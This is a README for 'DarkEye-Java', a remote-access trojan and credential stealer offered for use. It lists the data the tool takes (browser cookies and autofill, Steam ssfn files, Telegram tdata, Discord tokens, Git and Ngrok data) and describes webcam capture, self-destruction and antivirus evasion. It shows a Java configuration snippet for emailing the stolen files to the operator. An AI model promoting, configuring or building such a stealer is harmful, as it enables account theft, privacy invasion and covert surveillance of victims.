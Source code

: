 # DarkEye-Java
Rat/Stealer

## Functions
Files are sent via mail (.zip)

- [Yandex, Chrome, Opera] Cookie, Auto-Fill, Bookmarks, leveldb
- Steam: config, ssfn
- Telegram: tdata
- Discord: Cookie, leveldb
- [Apps] Ngrok, Git
- Screenshot screen
- Webcam photo (keep in mind that the lamp lights up)
- Self-destruct
- VirusTotal undetected

## Configuration
In the Config class, you need to enter your Sender and Recipient mail data.
In the sender, you need to choose which mail (E-Mail Method)
```Java
public static EMailData FROM_DATA = new EMailData("xxxxx@yandex.ru", "password", EMailMethod.YANDEX);
public static EMailData TO_DATA = new EMailData("xxxxx@gmail.com");
```

### Email Setup
#### Necessarily*
In the sender's mail settings, enable:
```Allow access to the mailbox using IMAP mail clients```

[C# DarkEye](https://github.com/GishReloaded/DarkEye)
